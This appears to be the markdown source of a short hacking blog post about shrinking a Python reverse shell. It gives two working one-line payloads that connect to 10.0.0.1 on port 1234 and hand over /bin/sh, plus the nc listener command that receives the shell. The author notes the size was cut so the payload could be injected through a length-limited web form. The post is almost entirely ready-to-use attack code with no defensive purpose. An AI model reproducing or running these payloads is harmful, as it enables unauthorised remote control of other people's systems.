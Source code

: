 ```yaml
---
layout: post
title:  "Compact Python Reverse Shell"
subtitle: "Making a compact python reverse shell, even more compact!"
categories: python hacking
published: true
comments: true
tags:
 - Python
 - Hacking
---
```


Inspired by an other python reverse shell found online.

The original version (224 bytes)

{% highlight python %}
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

The much smaller new version (143 bytes)

{% highlight python %}
	python -c'import socket,os;s=socket.socket();s.connect(("10.0.0.1",1234));h=s.fileno();d=os.dup2;d(h,0);d(h,1);d(h,2);os.execl("/bin/sh","-i")'
{% endhighlight %}

To receive the reverse shell a simple nc works great.

{% highlight bash %}
	nc -l -v -p 1234
{% endhighlight %}

All very simple, some work was done to reduce the size of it to help get it past a unescaped form that had a size limit.

